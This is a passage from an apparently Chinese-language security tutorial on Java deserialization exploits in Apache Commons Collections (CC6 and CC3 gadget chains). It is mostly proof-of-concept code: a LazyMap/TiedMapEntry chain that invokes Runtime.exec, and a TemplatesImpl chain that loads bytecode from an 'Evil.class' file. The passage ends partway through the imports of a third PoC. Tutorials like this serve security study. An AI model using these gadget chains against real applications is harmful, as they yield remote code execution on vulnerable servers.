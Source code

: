 所以对于CC6，我们可以把POC改造为：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), Runtime.class);
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

以上相当于铺垫，意味着通过LazyMap和TiedMapEntry，其实可以实现对transform方法的可控传参，也就可以省去ConstantTransformer了（这里可以回忆下为什么我们CC1中要引入ConstantTransformer）。

不过前面兜兜转转了这么久，还是没有避免使用Transformer[]。不要急，再来看下我们前面CC3构造的一种POC：

```java
TemplatesImpl template = new TemplatesImpl();
setField("_name",template,"Von");
setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
setField("_tfactory",template,new TransformerFactoryImpl());
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(template), new InvokerTransformer("newTransformer", null, null)});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), 'a');
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

在CC3中，我们的ChainedTransformer中只有两个Transformer（一个是ConstantTransformer，另一个 InstantiateTransformer），假如我们用上面的方法省去一个ConstantTransformer的话，那么就只有一个InstantiateTransformer了，也就可以不用Transformer数组了。POC如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.InvalidAlgorithmParameterException;
```